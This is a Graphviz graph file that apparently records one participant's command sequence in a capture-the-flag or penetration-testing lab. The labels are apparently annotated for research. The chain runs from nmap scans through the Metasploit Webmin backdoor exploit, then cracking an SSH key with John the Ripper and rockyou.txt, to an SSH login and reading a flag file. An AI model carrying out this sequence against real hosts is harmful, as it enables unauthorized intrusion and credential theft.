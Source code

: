 // creating graph for user: 80
digraph {
	node [shape=box]
	0 [label="nmap -A 172.18.1.5 A0 M0 A1 "]
	1 [label="nmap -A -p 1-65536 A0 A1 "]
	2 [label="nmap -A -p 1-65536 172.18.1.5 V0 "]
	3 [label="nmap -A -p 1-65535 172.18.1.5 V0 "]
	4 [label="msfconsole A2 M2 "]
	5 [label="search webmin A3 M3 "]
	6 [label="use exploit/unix/webapp/webmin_backdoor A8 M8 "]
	8 [label="set RHOST 172.18.1.5 A6 "]
	9 [label="set RHOSTS 172.18.1.5 A6 M6 "]
	11 [label="set LHOST 10.1.135.83 V6 "]
	12 [label="nmap -A 10.1.17.4 A0 A1 "]
	14 [label="ssh2john A14 A16 "]
	15 [label="john key A14 "]
	16 [label="cat key  A1 A9 A11 A12 A17 "]
	17 [label="locate *2john A1 A9 A10 A11 A12 A14 A17 "]
	18 [label="/usr/share/john/ssh2john.py key > key.hash A14 A16 "]
	19 [label="john key.hash A14 "]
	20 [label="cat key.hash A1 A9 A11 A12 A17 "]
	21 [label="run V8 "]
	29 [label="run V8 "]
	33 [label="ls A10 "]
	34 [label="./ssh2john.py key > key2.hash A14 A16 "]
	35 [label="john key2.hash A14 "]
	36 [label="locate *ockyou* A1 A9 A10 A11 A12 A17 "]
	37 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key2.hash A14 M14 "]
	38 [label="ssh -h A16 "]
	39 [label="ssh -i key eve@10.1.17.4 A16 M16 "]
	40 [label="chmod 600 key A15 M15 "]
	41 [label="ssh -i key eve@10.1.17.4 V16 "]
	42 [label="ssh -i key eve@10.1.17.4 V16 "]
	43 [label="ls A10 "]
	45 [label="ls A10 "]
	46 [label="cat flag.txt A17 M17 "]
	47 [label="cat /usr/share/wordlists/rockyou.txt  A1 A9 A11 A12 A17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 29 [constraint=false]
	29 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	rankdir=LR
}
